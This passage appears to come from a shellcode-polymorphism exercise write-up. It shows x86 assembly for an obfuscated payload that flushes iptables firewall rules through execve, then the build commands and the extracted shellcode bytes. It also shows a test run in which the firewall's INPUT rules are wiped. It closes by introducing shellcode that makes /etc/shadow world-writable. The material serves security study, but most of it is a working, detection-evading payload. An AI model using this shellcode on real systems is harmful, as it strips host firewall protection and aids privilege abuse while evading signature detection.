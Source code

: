```ASM
	mov byte [esi+14],cl ;replace al by cl
	mov byte [esi+17],cl ;replace al by cl
	mov long [esi+18],esi
	inc ebx
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],ecx
	sub al, 6
	mov	ebx,esi
	lea	ecx,[esi+18]
	xchg ebx, ebx ;do nothing
	lea	edx,[esi+26]
	int	0x80
callme:
	call	main
	db '0tcjo0jqubcmft#.G#'
```
Let's try this out!

## Compilation
```sh
$ nasm -f elf32 iptables-poly.nasm
$ bash ../get-shellcode.sh iptables-poly.o
"\xeb\x34\x5e\x89\xc1\x31\xc1\x89\xc8\xb1\x11\xfe\x0e\x46\xfe\xc0\xe2\xf9\x83\xee\x11\x88\x4e\x0e\x88\x4e\x11\x89\x76\x12\x43\x8d\x5e\x0f\x89\x5e\x16\x89\x4e\x1a\x2c\x06\x89\xf3\x8d\x4e\x12\x87\xdb\x8d\x56\x1a\xcd\x80\xe8\xc7\xff\xff\xff\x30\x74\x63\x6a\x6f\x30\x6a\x71\x75\x62\x63\x6d\x66\x74\x23\x2e\x47\x23"
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED -j ACCEPT
$ sudo iptables -L INPUT
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
ACCEPT     all  --  anywhere             anywhere             ctstate ESTABLISHED
$ sudo ./shellcode 
Shellcode Length:  77
$ sudo iptables -L INPUT
Chain INPUT (policy ACCEPT)
target     prot opt source               destination 
```

It works, new size of the shellcode is 77 (140% of the original size):
```SH
$ echo 'scale=3; 77/55*100' |bc
140.000
```

#  Linux/x86 - setuid(0) + chmod(/etc/shadow, 0666) - 37 Bytes by antrhacks
Source: http://shell-storm.org/shellcode/files/shellcode-608.php
